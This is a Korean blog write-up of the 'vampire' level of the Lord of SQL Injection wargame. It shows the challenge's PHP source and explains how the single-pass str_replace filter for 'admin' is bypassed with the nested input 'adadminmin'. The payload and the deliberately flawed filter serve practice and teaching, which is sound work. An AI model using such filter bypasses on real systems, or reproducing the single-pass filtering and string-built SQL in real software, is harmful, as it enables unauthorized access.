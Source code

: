 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - vampire 문제풀이"
excerpt_separator: <!--more-->
comments: true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번 문제도 역시 간단하게 풀 수 있었다.  

일단 소스코드가 짧으니 문제가 더 간단하게 느껴지는 것 같다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------------
query : select id from prob_vampire where id=''
----------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  $_GET[id] = strtolower($_GET[id]);
  $_GET[id] = str_replace("admin","",$_GET[id]); 
  $query = "select id from prob_vampire where id='{$_GET[id]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("vampire"); 
  highlight_file(__FILE__); 
?>
```

처음에 문제를 보고 `troll` 문제랑 같은 문제인 줄 알았다.  

그런데 이번 문제에서는 `ereg()` 함수가 사라지고 `strtolower()`과 `str_replace()` 함수가 생겼다.  

함수 이름에서도 알 수 있다시피 `strtolower()` 함수는 문자열의 대문자를 소문자로 바꾸어주는 함수이고, `str_replace()` 함수는 특정 문자열을 내가 지정한 문자열로 바꾸어 주는 함수이다.  

문제에서는 `GET` 방식으로 받아 온 값에서 `admin`이라는 문자를 `공백`으로 바꾸어 준다.  

그런데 이 `str_replace()` 함수에는 한가지 단점(?)이 있는데, 전체 문자열 전체를 한번만 검사하고 재검사는 하지 않는다는 것이다.  

만약에 `str_replace("admin", "", $var)`라고 구현한다면 아래와 같이 문자열이 있을 경우 결과는 다음과 같다.  

```php
# before

$var = "admin phpmyadmin administrator."

#after

$var = " phpmy istrator."
```

그런데 만약 `adadminmin` 라는 문자열이 있다면 가운데의 `admin`만 필터링 되어 사라지고 앞의 `ad`와 뒤의 `min`이 합쳐져 다시 `admin`이라는 단어를 만들 수 있게 된다.  

역시나 주소창에 아래처럼 입력했더니 문제를 풀 수 있었다.  

```
?id=adadminmin
```

```php
------------------------------------------------------------------------
query : select id from prob_vampire where id='admin'
------------------------------------------------------------------------

VAMPIRE Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[id])) exit("No Hack ~_~");
  $_GET[id] = strtolower($_GET[id]);
  $_GET[id] = str_replace("admin","",$_GET[id]); 
  $query = "select id from prob_vampire where id='{$_GET[id]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("vampire"); 
  highlight_file(__FILE__); 
?>
```

`VAMPIRE Clear!!`
